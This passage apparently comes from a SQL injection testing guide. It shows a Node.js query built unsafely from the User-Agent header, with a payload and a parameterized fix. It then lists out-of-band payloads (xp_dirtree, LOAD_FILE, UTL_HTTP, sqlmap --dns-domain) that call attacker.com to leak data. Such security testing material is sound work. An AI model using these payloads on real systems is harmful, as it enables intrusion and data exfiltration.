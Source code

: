 **Example Vulnerable Code (Node.js)**:
```javascript
const query = `SELECT * FROM users WHERE id = '${req.headers['user-agent']}'`;
db.query(query);
```
Test: `User-Agent: ' OR '1'='1`
Result: Returns all users.

**Example Secure Code (Node.js)**:
```javascript
const query = `SELECT * FROM users WHERE id = ?`;
db.query(query, [req.headers['user-agent']]);
```
Test: No injection.

**Remediation**:
- Sanitize headers:
  ```javascript
  if (!/^[a-zA-Z0-9]+$/.test(req.headers['user-agent'])) throw Error
  ```
- Escape cookies:
  ```javascript
  const session = escape(req.cookies.session);
  ```

**Tip**: Save non-classic vector evidence in a report.

### 6. Test for Out-of-Band (OOB) SQL Injection

**Objective**: Detect SQL injection via external interactions.

**Steps**:
1. Inject OOB payloads:
   - Test: `'; EXEC xp_dirtree('\\attacker.com\foo') --`
   - Use Burp:
     ```http
     GET /page?id=1'; EXEC xp_dirtree('\\attacker.com\foo') -- HTTP/1.1
     Host: example.com
     ```
2. Monitor callbacks:
   - Use Burp Collaborator or dnslog.cn.
   - Test: `SELECT LOAD_FILE(CONCAT('\\\\',@@hostname,'.attacker.com\\')) --`.
3. Test Oracle OOB:
   - Try: `UNION SELECT UTL_HTTP.REQUEST('http://attacker.com') FROM dual --`.
4. Use SQLMap:
   ```bash
   sqlmap -u "http://example.com/page?id=1" --dns-domain=attacker.com
   ```

**Example Vulnerable Code (MSSQL)**:
```sql
EXEC(@query)
```
Test: `'; EXEC xp_dirtree('\\attacker.com\foo') --`
Result: Triggers DNS request.
